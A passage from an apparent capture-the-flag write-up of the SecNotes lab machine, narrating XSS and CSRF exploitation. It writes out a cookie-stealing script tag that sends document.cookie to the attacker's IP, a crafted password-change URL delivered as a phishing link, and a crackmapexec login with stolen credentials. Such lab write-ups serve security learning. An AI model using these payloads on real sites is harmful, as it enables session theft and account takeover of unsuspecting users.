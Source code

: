 As the web application is vulnerable to **XSS** I'm also going to try to perform an **XSRF**, so I perform a test before thinking about any attack using this vector. First I start a local server with `python` and then I inject the malicious **JavaScript** code to send a request for a resource to it, and indeed I can catch the request. The first thing that comes to my mind is to steal the session cookie via **XSRF**, but once I inject the code I don't get any request where the cookie value is leaked. As it seems that there is a user in charge of analyzing the sent messages, I can try with a **Phishing** and inject directly the **URL** with the **IP** of my attacker machine, and after waiting a while I succeed in catching the incoming connection with `nc`.

> **XSRF**, also known as **CSRF** (**Cross-Site Request Forgery**), is a type of security vulnerability where an attacker tricks a user into performing actions on a website they are already authenticated to, without the user's knowledge or consent.

```bash
python3 -m http.server 80
# XSRF or CSRF: <script src="http://10.10.14.9/test"></script>      :)

# http://10.10.10.97/contact.php

python3 -m http.server 80
# <script>document.location('http://10.10.14.9/?cookie=' + document.cookie)</script>      :(
# http://10.10.14.9/testing                                                               :)
```

<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I can already find a possible attack vector to access the web application with the user **tyler's** account. I have to combine the different functionalities and vulnerabilities I succeeded to exploit. My goal is to update **tyler's** password through a **Phishing** exploiting the **XSRF**. The first step is to catch with **BurpSuite** the request sent to the server, when a password update request is made. This way I can analyze the packet sent to know what data is sent, I will also change the **POST** method used to **GET** to build my malicious link. The next thing is to inject the **URL** to perform the phishing attack to the user **tyler** and after waiting a while I try to access successfully with the password I defined in the link. In one of the notes I find credentials corresponding to the compromised user and with `crackmapexec` I check that they are valid.

```bash
# http://10.10.10.97/change_pass.php

burpsuite &> /dev/null & disown
# Change request method (to create the Phishing URL)
# /change_pass.php?password=oldboy123&confirm_password=oldboy123&submit=submit

# http://10.10.10.97/contact.php
# http://10.10.10.97/change_pass.php?password=oldboy123&confirm_password=oldboy123&submit=submit
# http://10.10.10.97/login.php

crackmapexec smb 10.10.10.97 -u 'tyler' -p '92...*&'       # :)
```
